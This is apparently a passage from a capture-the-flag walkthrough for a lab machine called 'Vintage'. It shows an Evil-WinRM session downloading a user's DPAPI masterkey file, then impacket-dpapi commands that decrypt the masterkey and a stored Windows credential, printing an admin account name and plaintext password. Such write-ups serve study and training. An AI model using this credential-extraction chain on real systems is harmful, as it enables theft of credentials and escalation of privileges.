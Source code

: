 ```
*Evil-WinRM* PS C:\Users\C.Neri\AppData\Roaming\Microsoft\Protect\S-1-5-21-4024337825-2033394866-2055507597-1115> dir -h

    Directory: C:\Users\C.Neri\AppData\Roaming\Microsoft\Protect\S-1-5-21-4024337825-2033394866-2055507597-1115

Mode                 LastWriteTime         Length Name
---- ------------- ------ ----
-a-hs- 12/4/2024   2:46 AM            740 1fe00192-86ec-4689-a4f2-f8c2336edaf4
-a-hs- 6/7/2024   1:17 PM            740 4dbf04d8-529b-4b4c-b4ae-8e875e4fe847
-a-hs- 6/7/2024   1:17 PM            740 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b
-a-hs- 6/7/2024   1:17 PM            904 BK-VINTAGE
-a-hs- 12/4/2024   2:46 AM             24 Preferred

*Evil-WinRM* PS C:\Users\C.Neri\AppData\Roaming\Microsoft\Protect\S-1-5-21-4024337825-2033394866-2055507597-1115> download 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b
```

然后进入解密

```
└─# impacket-dpapi masterkey -file 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b -sid S-1-5-21-4024337825-2033394866-2055507597-1115 -password Zer0the0ne
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[MASTERKEYFILE]
Version     :        2 (2)
Guid        : 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b
Flags       :        0 (0)
Policy      :        0 (0)
MasterKeyLen: 00000088 (136)
BackupKeyLen: 00000068 (104)
CredHistLen : 00000000 (0)
DomainKeyLen: 00000174 (372)

Decrypted key with User Key (MD4 protected)
Decrypted key: 0xf8901b2125dd10209da9f66562df2e68e89a48cd0278b48a37f510df01418e68b283c61707f3935662443d81c0d352f1bc8055523bf65b2d763191ecd44e525a

└─# impacket-dpapi credential -file C4BB96844A5C9DD45D5B6A9859252BA6 -key 0xf8901b2125dd10209da9f66562df2e68e89a48cd0278b48a37f510df01418e68b283c61707f3935662443d81c0d352f1bc8055523bf65b2d763191ecd44e525a
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[CREDENTIAL]
LastWritten : 2024-06-07 15:08:23
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
Type        : 0x00000001 (CRED_TYPE_GENERIC)
Target      : LegacyGeneric:target=admin_acc
Description : 
Unknown     : 
Username    : vintage\c.neri_adm
Unknown     : Uncr4ck4bl3P4ssW0rd0312
```

